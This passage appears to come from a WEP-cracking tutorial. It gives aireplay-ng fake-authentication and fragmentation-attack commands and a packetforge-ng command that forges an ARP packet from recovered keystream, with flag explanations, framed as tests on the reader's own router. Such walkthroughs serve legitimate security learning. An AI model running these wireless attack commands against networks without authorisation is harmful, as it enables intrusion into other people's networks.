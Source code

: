 `aireplay-ng -1 0 -e DIR-615 -a 00:18:E7:EA:28:87 -h 00:C0:CA:96:C1:B6 wlan0mon`

![fragmentation-fake-auth](/content/images/2020/01/fragmentation-fake-auth.png)

    -1: Use the Fake Authentication attack with a reassociation time of (0)
    -e: SSID of router (DIR-615)
    -a: victim AP MAC address (00:18:E7:EA:28:87)
    -h: wireless card MAC address 00:C0:CA:96:C1:B6

This step is required to perform the fragmentation attack.

- 

Perform the Fragmentation Attack:

`aireplay-ng -5 -b 00:18:E7:EA:28:87 -h 00:C0:CA:96:C1:B6 wlan0mon`

![fragmentation1](/content/images/2020/01/fragmentation1.png)

This attack uses a packet to your router, typically from your own NIC because of the fake authentication attack, to reinject into the network and collect fragments of keying material to acquire the pseudo-random generating algorithm (PRGA). We use the PRGA to create an ARP packet in packetforge-ng to reinject into the network, thus, acquiring weak IVs. These IVs are used by aircrack-ng to acquire the WEP key.

- 

Enter 'y' to use the packet:

`y`

![fragmentation2](/content/images/2020/01/fragmentation2.png)

Once you select the packet, you will see a screen above until you acquire 1500 bytes of a keystream. Next we will use packetforge-ng to create a packet with this keystream and output it to a file.

- 

Use packetforge-ng to create an ARP packet to use to reinject into the network:

`packetforge-ng -0 -a 00:18:E7:EA:28:87 -h 00:C0:CA:96:C1:B6 -k 192.168.0.150 -l 192.168.0.255 -y fragment-0111-163737.xor -w PRGA-OUTPUT`

![fragmentation-packetforge](/content/images/2020/01/fragmentation-packetforge.png)

    -0: forge an ARP packet
    -a: victim AP MAC address (00:18:E7:EA:28:87)
    -h: wireless card MAC address (00:C0:CA:96:C1:B6)
    -k: destination IP address
    -l: source IP address
    -y: specify an .xor or .iv file to use for keystream, the .xor file created above (fragment-somenumber.xor)
    -w: write created packet to output file (PRGA-OUTPUT)

**Remember this is an ARP packet, so `-k` and `-l` ip addresses must be an IP in your personal network.**

This is how you create an ARP packet in packetforge-ng.
